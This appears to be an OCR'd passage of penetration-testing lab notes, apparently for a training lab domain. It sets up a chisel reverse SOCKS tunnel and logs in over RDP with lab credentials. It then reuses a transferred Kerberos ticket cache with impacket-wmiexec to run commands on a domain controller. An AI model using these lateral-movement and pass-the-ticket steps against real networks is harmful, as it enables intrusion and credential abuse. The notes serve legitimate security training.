     # download and execute chisel
    wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
    gzip -d chisel_1.7.7_linux_amd64.gz
    mv chisel_* chisel && chmod +x ./chisel

    sudo ./chisel server --reverse

    # now we can connect to MS01 and execute chisel server

    # connect to MS01 via RDP
    xfreerdp /v:10.129.204.23 /u:david /d:inlanefreight.htb /p:Password2 /dynamic-resolution

    # execute chisel in MS01
    c:\tools\chisel.exe client 10.10.14.33:8080 R:socks

    # we can transfer target ccache file from LINUX01 to attacker machine and create env var
    # in attacker machine
    export KRB5CCNAME=/home/htb-student/krb5cc_647401106_I8I133

    # we can use Kerberos ticket with impacket now
    # mention target machine name and not IP, use -k
    proxychains impacket-wmiexec dc01 -k
    # to avoid password prompt use -no-pass
    ```

    ```sh
    # we can also use evil-winrm with kerberos instead of impacket
    
    # need to install auth package first
    sudo apt-get install krb5-user -y
    # in prompt for config
    # enter default k5 realm 'INLANEFREIGHT.HTB', kerberos server can be empty, and admin server as 'DC01'
